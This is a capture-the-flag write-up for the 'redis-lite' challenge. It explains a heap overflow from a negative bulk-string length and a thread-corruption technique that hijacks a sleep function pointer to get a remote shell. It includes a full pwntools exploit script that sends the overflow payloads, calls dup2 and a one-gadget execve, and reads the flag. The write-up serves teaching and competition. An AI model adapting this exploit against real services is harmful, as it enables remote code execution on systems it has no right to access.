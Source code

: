 # redis-lite writeup

Team: Super HexaGoN (Super Guesser + KAIST GoN)

Chal solved together with procfs :+1:


## Analysis

A "lite Redis" Key-Value DB which follows [RESP](https://redis.io/topics/protocol).

Vulnerability exists in `resp_receive_bulk` where sending bulk string of length -3 will result in overflow, i.e. receives infinite byte-by-byte input in a `calloc(1, 0)` buffer.

A good article about exploiting such "wildcopy" vulns: [Taming the wild copy: Parallel Thread Corruption](https://googleprojectzero.blogspot.com/2015/03/taming-wild-copy-parallel-thread.html?m=1) by Project Zero


## Exploit

The vulnerability is usually unexploitable in a single-thread program, but in this case we have threads running in the background for key expiration. Thus the exploit plan is simple: let the buffer be allocated in an address lower than struct passed to expiration handlers, then do the infinite OOB to overwrite sleep fptr as well as unit for edi-control.

I always love to smash oneshots in my exploits, so checking the register state at the time of calling `(u)sleep` revealed that `rsi == rdx == NULL`, great for the oneshot below:

```
0xe3b34 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Okay Xion, but you can't just pop shell on a forkserver talking through a socket!

Remember oneshot constraint **`rsi == NULL`**? And how we can control edi by overwriting `unit` field of the expiration handler struct?

Great! This lets us call `dup2(4, 0)` where 4 is our connection sockfd. Call this first, followed by oneshot and BOOM! We popped shell! Just `cat /flag* >&0` to pop flag (the redirection is necessary, fd 1 is currently server's stdout). A lunatic solution for a lunatic pwn chal :)


## Solver Code

```python
#!/usr/bin/env python3

from pwn import *

LOCAL = False

libc = ELF('/lib/x86_64-linux-gnu/libc-2.31.so')


def resp_bulk_string(data, length=None):
    if length == None:
        length = len(data)
    return b"$" + str(length).encode() + b"\r\n" + data + b"\r\n"


def resp_bulk_string_2(data, length):
    return b"$" + str(length).encode() + b"\r\n" + data


def resp_array(elements):
    return b"*" + str(len(elements)).encode() + b"\r\n" + b"".join([x for x in elements])


def set_elem(key, value):
    command = []
    command.append(resp_bulk_string(b"SET"))
    command.append(resp_bulk_string(key))
    command.append(resp_bulk_string(value))
    p.send(resp_array(command))


def set_elem_with_expiration(key, value, ex_type, timeout):
    command = []
    command.append(resp_bulk_string(b"SET"))
    command.append(resp_bulk_string(key))
    command.append(resp_bulk_string(value))
    command.append(resp_bulk_string(ex_type))
    command.append(resp_bulk_string(str(timeout).encode()))
    p.send(resp_array(command))


def spawn():
    global p
    if LOCAL:
        p = remote("127.0.0.1", 6379)
    else:
        p = remote("pwn1.ctf.zer0pts.com", 6379)


def brute(vals):
    spawn()
    for i in range(10):
        set_elem_with_expiration(b"a"*8, b"b"*8, b"PX", 1000000)
    for i in range(10):
        set_elem_with_expiration(b"a"*8, b"b"*8, b"PX", 100000000)
    # some awesome heap stuff

    payload = b""
    payload += b"\x00"*0x270
    payload += bytes(vals)

    p.send(resp_bulk_string_2(payload, -3))
    
    try:
        st = time.time()
        while True:
            et = time.time()
            if et-st > 2:
                return True
            p.recv(timeout=0.1)
    except EOFError:
        return False
    finally:
        p.close()


def exploit():
    spawn()
    for i in range(10):
        set_elem_with_expiration(b"a"*8, b"b"*8, b"PX", 1000000)
    for i in range(10):
        set_elem_with_expiration(b"a"*8, b"b"*8, b"PX", 100000000)
    # some awesome heap stuff

    payload = b"\x00"*0x270
    payload += p64(libc.sym['dup2']) + p32(0x4) + p32(0x7fffffff) + p64(0)

    p.send(resp_bulk_string_2(payload, -3))
    sleep(0.5)

    payload = b"\x00"*0x198
    payload += p64(libc.address + 0xe3b34) + p32(0) + p32(0x7fffffff) + p64(0)
    p.send(payload)


if __name__ == "__main__":
    # step 1. leak
    '''
    usleep = [0x40] #0x840
    for i in range(0x8, 0xf8+1, 0x10):
        if brute(usleep + [i]):
            usleep.append(i)
            print(usleep)
            break
    else:
        assert False
    for ct in range(4):
        for i in range(0, 0x100, 1):
            print(ct, i)
            if brute(usleep + [i]):
                usleep.append(i)
                print(usleep)
                break
        else:
            assert False
    
    usleep = u64(bytes(usleep) + b'\0\0')
    libc.address = usleep - libc.sym['usleep']
    '''
    libc.address = 0x7f2c10bc1000
    assert libc.address & 0xfff == 0
    log.success(f'{libc.address = :#014x}')

    # step 2. dup2 & rce
    exploit()
    p.sendline('cat /flag* >&0')
    p.interactive()
```
